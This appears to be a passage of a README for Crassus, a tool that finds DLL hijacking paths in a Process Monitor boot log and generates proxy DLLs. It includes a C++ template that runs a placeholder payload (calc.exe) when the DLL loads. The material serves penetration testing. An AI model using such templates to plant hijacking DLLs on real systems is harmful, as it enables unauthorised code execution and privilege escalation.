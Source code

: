 ## Examples

Parse the Process Monitor boot log saved in `boot.PML`. All vulnerable paths will be saved as `results.csv` and all proxy DLL source files in the `stubs` subdirectory.

```
C:\tmp> Crassus.exe boot.PML
```


## Proxy DLL Template

Below is the template that is used when generating proxy DLLs., For DLLs that are found by Crassus, the proxy DLL will contain the same export names as specified in `%_EXPORTS_%`, as well as the same ordinals as specified in the `.def` file. Crassus will detect whether the DLL needs to be built as a 32-bit library or a 64-bit library by looking at the architecture of the parent process, and tagging the source code in the `%_BUILD_AS_%` field accordingly.

If the real DLL cannot be found using the Process Monitor log, or if the export name is problematic, the build scripts will fall back to creating a DLL without specified exports.


```cpp
#pragma once
    
//%_BUILD_AS%

#include <windows.h>;

extern "C" {

  VOID Payload() {
      // Run your payload here.
      WinExec("calc.exe", 1);
  }

  BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
  {
      switch (fdwReason)
      {
      case DLL_PROCESS_ATTACH:
          Payload();
          break;
      case DLL_THREAD_ATTACH:
          break;
      case DLL_THREAD_DETACH:
          break;
      case DLL_PROCESS_DETACH:
          break;
      }
      return TRUE;
  }


  #ifdef ADD_EXPORTS
  %_EXPORTS_%
  #endif
}
```

